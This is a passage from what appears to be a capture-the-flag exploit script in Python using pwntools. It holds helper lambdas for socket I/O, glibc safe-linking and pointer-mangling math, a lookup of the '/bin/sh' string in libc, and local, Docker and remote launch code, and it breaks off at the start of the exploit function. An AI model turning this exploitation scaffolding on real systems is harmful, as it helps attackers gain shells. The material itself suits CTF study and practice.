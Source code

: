 ```py
    proc = subprocess.Popen(["solvepow", "solve", pow], stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    pow = proc.communicate()[0]
    sla(b"Solution? ", pow)

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
sl = lambda a: io.sendline(a)
recv = lambda: io.recv()
recvn = lambda a: io.recvn(a)
recvu = lambda a, b=False: io.recvuntil(a, b)
safe_link = lambda addr, ptr: (addr >> 12) ^ ptr
ptr_mangle = lambda addr, cookie=0: rol(addr ^ cookie, 17)
ptr_demangle = lambda addr, cookie=0: ror(addr, 17) ^ cookie
ptr_getcookie = lambda mangled, demangled: ptr_demangle(mangled, demangled)
binsh = lambda: next(libc.search(b"/bin/sh\0"))
snum = lambda a, b: sla(a, str(b).encode("iso-8859-1"))
slaprefix = lambda a: sla(PREFIX, a)
saprefix = lambda a: sa(PREFIX, a)
choice = lambda a: snum(PREFIX, a)

def printx(**kwargs):
    for k, v in kwargs.items():
        success("%s: %#x" % (k, v))

def launch():
    if args.REMOTE:
        l = launch_remote
    elif args.DOCKER:
        l = launch_docker
    else:
        l = launch_local
    with context.local(log_level=logging.ERROR):
        l()
    if args.POW:
        solve_pow()

def getb(d, a, b):
    a_ = d.find(a)
    if a_ == -1 or a == b"": a_ = 0
    b_ = d.find(b, a_+len(a))
    if b_ == -1 or b == b"": b_ = len(d)
    return d[a_+len(a):b_]
def getr(d, p):
    return re.findall(p, d)[0]

# ================================================================
# EXPLOIT HERE
# ================================================================

with context.local(log_level=logging.ERROR):
    exe = ELF(file)
    libc = exe.libc
context.binary = exe

tries = 0

def exploit():
    def msg(num, data):
        return p16(num) + data[:14].ljust(14, b"\0")
```